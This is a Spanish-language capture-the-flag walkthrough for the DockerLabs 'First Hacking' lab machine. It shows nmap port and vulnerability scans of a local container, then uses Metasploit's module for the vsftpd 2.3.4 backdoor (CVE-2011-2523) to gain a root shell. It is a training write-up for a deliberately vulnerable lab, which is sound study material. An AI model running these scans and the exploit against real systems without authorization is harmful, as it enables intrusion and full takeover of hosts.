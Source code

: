 Machine name: First haking<br>
plataforma: https://dockerlabs.es/#/<br>
Dificultad: Muy facil<br>
source: https://mega.nz/file/oCd2VC5D#QfiRoFmZrZ-FjTuyRX9bLw7638fjluwp6jNth7JjXTw<br>
Autor: El pinguino de Mario<br>

Herramientas:
- Ping
- NMAP
- Metasploit

Máquina: <br>
![[image]](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Firsthacking%20machine.png) <br>
despliegue:

```sh fold:"Despliegue de la maquina"
sudo bash auto_deploy.sh firsthacking.tar 
```

Despliegue: <br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Despliegue.png) <br>
ping a la IP:
```sh fold:"Ping a la máquina"
ping -c1 172.17.0.2
```
<br>
![Ping](./Images/Dockerlabs - FirstHacking - Ping para ver conectividad.png)
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Ping%20para%20ver%20conectividad.png?raw=true)<br>
TTL: 64 linux

reconocimiento
```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Nmpa%20reconocimiento.png?raw=true) <br>

vemos que encontramos el puerto 21
vamos a lanzar un nmap con detalles para el puerto 21
```sh fold:"Reconocimiento con nmap y scrips del puerto 21"
sudo nmap --script "vuln" -p 21 172.17.0.2
```
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Nmap%20con%20exploit%20al%20puerto%2021.png?raw=true) <br>

tenemos la versión 2.3.4 y un cve:CVE-2011-2523
vamos a intentar explotarlo con metasploit

lanzamos metaesploit
buscamos por el CVE y al no encontrarlo buscamos por la versión de FTP:

```sh fold:"metaesploit"
search CVE-2011-2523 # No results
search ftp 2.3.4
use 0
set RHOSTS 172.17.0.2
run
```
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Nmap%20con%20exploit%20al%20puerto%2021.png?raw=true) <br>


metaesploit configuramos el IP destino:<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Metaesploit%20configuracion%20de%20la%20IP%20del%20host.png)


Una vez configurado el metasploit lanzamos run para lanzar el ataque
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Correr%20metaesploit.png)<br>
conseguimos acceso con el usuario root:<br>

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Usuario%20Root.png)
